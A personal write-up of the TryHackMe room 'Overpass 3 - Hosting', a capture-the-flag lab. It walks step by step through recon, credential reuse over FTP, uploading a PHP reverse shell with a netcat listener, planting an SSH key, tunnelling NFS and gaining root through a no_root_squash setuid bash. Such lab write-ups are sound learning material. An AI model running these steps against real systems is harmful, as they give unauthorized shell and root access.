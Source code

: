 # Overpass 3 - Hosting

This is my write-up for the TryHackMe machine at: [https://tryhackme.com/room/overpass3hosting](https://tryhackme.com/room/overpass3hosting)

Nmap Scan command:

```
nmap -T4 -A 10.10.168.65 -oN nmapscan
```

Nmap output:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-10 22:39 EDT
Nmap scan report for 10.10.168.65
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.91 seconds
```

I noticed that they have 3 ports open. I went to the web (port 80) first to check it out:

![](<../../.gitbook/assets/image (625).png>)

There was no `/robots.txt` file. I then ran **gobuster** on the IP address:

```
gobuster dir --url http://10.10.168.65/  -w directory-list-lowercase-2.3-big.txt -t 40
```

About 4% of the gobuster search, I got the following output:

![](<../../.gitbook/assets/image (485) (1).png>)

Going to the backups website, I saw this:

![](<../../.gitbook/assets/image (666) (1) (1).png>)

I then downloaded the file. There were two files in the zip file:

![](<../../.gitbook/assets/image (519).png>)

Using [this write-up](https://musyokaian.medium.com/overpass-3-hosting-tryhackme-walkthrough-d77703a72495), I realized that I can decrupt the file with the private key I have:

```
gpg --import priv.key //import the key
gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx //output to new file
```

Since I am on Linux (Kali), I wanted to convert the file to a version that I would be able to view in. I ran the following command to convert the Excel file into a csv file, which I was able to read:

```
ssconvert CustomerDetails.xlsx newfile.csv
```

I was then able to see the contents of the file:

![](<../../.gitbook/assets/image (548).png>)

It seems to be the customers of the website, based on the context. We also have their username and password. I will try this in FTP, and my plan is that if the password does not work on FTP, then I will try SSH. In FTP, I got access using the credentials for "Par. A. Doxx":

![](<../../.gitbook/assets/image (644).png>)

FTP seemed to only work for that user. The other passwords did not work in FTP. When I tried for SSH, the credentials did not work there either. I then went back to the same write-up above and then realized that I had to upload a php-reverse-shell. Going to [this GitHub page](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), I downloaded the reverse-shell script. In the script, I changed the IP address to my TryHackMe IP address. I then uploaded the file to the server:

![](<../../.gitbook/assets/image (432).png>)

I then ran `nc -lvp 1234` on another terminal tab, and was listening for a connection. After visiting **http://10.10.168.65/php-reverse-shell.php**, I got a reverse shell:

![](<../../.gitbook/assets/image (430).png>)

After being stuck for a while, I viewed [this write-up](https://www.aldeid.com/wiki/TryHackMe-Overpass-3-Hosting) in order to see where to go next. I used the command the author of the write-up used:

```
find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
```

This gave me the following output:

![](<../../.gitbook/assets/image (363).png>)

This file had the flag in it:

![](<../../.gitbook/assets/image (456).png>)

I then downloaded Linpeas to my local machine using **wget**. I then pushed that to the server using an http server:

![](<../../.gitbook/assets/image (542).png>)

![](<../../.gitbook/assets/image (669).png>)

I then ran linpeas on the remote machine. I then saw the following, when I also saw in other write-ups as well:

![](<../../.gitbook/assets/image (441).png>)

I then went back to the most recently mentioned write-up, in order to understand what I had to do next. Following [this write-up](https://shishirsubedi.com.np/thm/overpass3/), I uploaded my key to the remote server so I can connect in an easier method. Here are the commands I ran:

```
My machine: ssh-keygen -f paradox
My machine: cat paradox.pub
//Take the information inside the paradox.pub and copy it to the remote machine
Remote machine: echo "ssh-rsa ............" > .ssh/paradox
```

I was then able to ssh into the machine to the user paradox from my machine directly:

![](<../../.gitbook/assets/image (367).png>)

After a long time of being stuck, I finally found a solution reading [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/). My mistake was running the wrong command. The following is what worked for me:

```
ssh -i paradox -L 20049:127.0.0.1:2049  paradox@10.10.168.65
```

I changed 2049 before the IP to 20049, since I kept on getting errors that the port was already in use. I then ran the following command to mount the share to my local machine:

```
sudo mount -t nfs -o port=20049 localhost: nfs
```

If we change directory into the **nfs** folder, we can see the file system mounted there:

![](<../../.gitbook/assets/image (613).png>)

I read the user flag. After that, the ssh authorized key I had uploaded to paradox earlier, I had not uploaded it to **.ssh/authorized\_keys** in the mounted directory. I then was able to SSH to the machine:

![](<../../.gitbook/assets/image (507).png>)

I read up from [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/) that I can now use the **no\_root\_squash** exploit, something that linpeas.sh had shown us earlier. I followed the following commands from the write-up to get it to work:

```
#In the mounted dir, as root user
cp /bin/bash ./
chmod +s bash

#In the remote machine as user james
./bash -p
```

This got me root user on the machine. I then got the root flag.

![](<../../.gitbook/assets/image (657).png>)
